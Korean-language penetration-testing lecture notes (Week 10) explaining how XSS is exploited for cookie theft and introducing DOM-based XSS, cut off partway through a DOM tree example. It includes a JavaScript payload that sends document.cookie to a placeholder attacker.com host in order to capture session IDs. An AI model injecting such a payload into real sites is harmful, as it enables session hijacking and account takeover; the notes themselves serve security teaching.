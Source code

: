 --- meta
title: Penetration Testing | Week 10
date: 2025/06/18
excerpt: 쿠키 탈취 기법과 DOM-Based XSS
categories: 모의 해킹
---

### 강의 노트

#### XSS 취약점의 활용(Exploitation)

9주차에 XSS 취약점을 탐지하는 방법에 대해서 학습하였고, 해당 취약점의 존재를 입증하기 위한 PoC 코드로 `alert(1);`를 활용하였다. 그런데 실제로 XSS 취약점을 활용하여 수행할 수 있는 공격에는 어떤 것들이 있을까?

대표적인 공격 중 하나로 쿠키 정보를 탈취하여 세션 ID를 확보하는 방식이 있다. 다음의 예시 스크립트를 살펴 보자.

```javascript
var cookieData = document.cookie;
var img = new Image();
img.src = "http://attacker.com/?cookie=" + cookieData;
```

위 스크립트는 현재 웹페이지에 저장된 쿠키 정보(`document.cookie`)를 `cookieData` 변수에 저장한다. 이후 `Image()` 함수를 통해 이미지 객체를 생성하는데, 이때 이미지 객체의 `src` 속성에 주소를 지정하면 브라우저가 지정된 주소로 요청을 전송하여 이미지 데이터 수신을 시도한다. 이 주소에 공격자의 서버 주소를 삽입하고 쿼리 스트링에 `cookieData` 값을 추가하여 전송하면 피해자의 쿠키 정보가 공격자 서버로 전달된다.

XSS 취약점에 `alert(1);` 대신 위와 같은 스크립트를 삽입하면 피해자의 세션 ID를 획득할 수 있다. 세션 ID는 일반적으로 사용자의 로그인 정보 및 인증 상태를 식별하는 데 사용되므로, 이를 공격자가 탈취할 경우 해당 사용자의 권한으로 시스템에 접근하는 등 중대한 보안 위협이 발생할 수 있다.

---

#### DOM-Based XSS

**DOM-Based XSS**란 삽입된 악성 스크립트가 서버를 거치지 않고 브라우저에서 DOM을 조작하는 코드에 의해 실행되는 XSS 공격을 의미한다.

<style>
  .dom-html {
    @media (min-width: 840px) {
      display: inline-block;
      width: 345px;
      margin: 8px 9px 0 0 !important;
    }
  }

  .dom-tree {
    @media (min-width: 840px) {
      display: inline-block;
      width: 345px;
      margin: 8px 0 0 0 !important;
    }
  }
</style>

> <strong>DOM(Document Object Model)</strong>
>
> **DOM**은 HTML 문서를 계층적 트리 구조로 표현한 객체 기반의 인터페이스이다. 이 모델은 웹 브라우저가 문서 구조를 이해하고, JavaScript를 통해 문서의 구조·내용 등을 동적으로 조작할 수 있도록 지원한다.
>
> 다음은 간단한 HTML 문서와 그에 해당하는 DOM 트리의 예시이다.
>
> <pre class="dom-html"><code class="language-html hljs language-xml" data-highlighted="yes"><span class="hljs-meta">&lt;!DOCTYPE <span class="hljs-keyword">html</span>&gt;</span>
> <span class="hljs-tag">&lt;<span class="hljs-name">html</span>&gt;</span>
>   <span class="hljs-tag">&lt;<span class="hljs-name">head</span>&gt;</span>
>     <span class="hljs-tag">&lt;<span class="hljs-name">title</span>&gt;</span>DOM<span class="hljs-tag">&lt;/<span class="hljs-name">title</span>&gt;</span>
>   <span class="hljs-tag">&lt;/<span class="hljs-name">head</span>&gt;</span>
>   <span class="hljs-tag">&lt;<span class="hljs-name">body</span>&gt;</span>